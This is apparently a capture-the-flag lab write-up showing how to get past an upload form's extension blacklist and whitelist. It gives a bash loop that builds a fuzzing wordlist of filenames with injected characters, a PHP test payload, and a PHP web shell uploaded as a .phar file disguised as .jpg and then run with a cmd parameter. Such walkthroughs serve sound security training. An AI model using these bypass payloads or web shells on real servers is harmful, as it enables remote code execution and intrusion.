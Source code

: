 # Whitelist Filters

The above exercise employs a blacklist and a whitelist test to block unwanted extensions and only allow image extensions. Try to bypass both to upload a PHP script and execute code to read "/flag.txt"

In some cases whitelists may be used to prevent malicious threats for uploading unintended file formats.

<figure><img src="../../../.gitbook/assets/image (135).png" alt=""><figcaption></figcaption></figure>

Lets capture the upload request and fuzz the extension like in the previous exercise.&#x20;

<figure><img src="../../../.gitbook/assets/image (9) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Lets also add the following php code to ensure it's being executed:

```php
<?php echo "shell test";?>
```

This time, we'll create our own wordlist. We will adapt the bash script from HTB and add two more extensions ending up with a script like this:

```bash
for char in '%20' '%0a' '%00' '%0d0a' '/' '.\\' '.' '…' ':'; do
    for ext in '.php' '.phps' 'php3' '.phar'; do
        echo "shell$char$ext.jpg" >> wordlist.txt
        echo "shell$ext$char.jpg" >> wordlist.txt
        echo "shell.jpg$char$ext" >> wordlist.txt
        echo "shell.jpg$ext$char" >> wordlist.txt
    done
done
```

Just paste it on your machine and press enter to execute it, and then copy the content to the Intruder's payload configuration and click `Start attack`.

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

As we can see from the image above, the requests with a 230 length have the message "File successfully uploaded".

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Now we need to know if the actual php code was executed. Hide all the columns besides the column "Payload", and copy all it's content to other file so we can have another wordlist.

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Go to the main page and open "image" in a new tab.

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

It looks we may have found a working payload. And don't need to fuzz it anymore. Now let's modify the POST request.

```php
<?php system($_REQUEST['cmd']); ?>
```

<figure><img src="../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And it was uploaded! Now let's go the previous URL and modify it to `/shell.phar:.jpg?cmd=id`.

<figure><img src="../../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And it worked! Now lets look for the flag.

<figure><img src="../../../.gitbook/assets/image (7) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Like in the previous sections the flag is under the root directory.

<figure><img src="../../../.gitbook/assets/image (8) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And here it is, we found our flag!

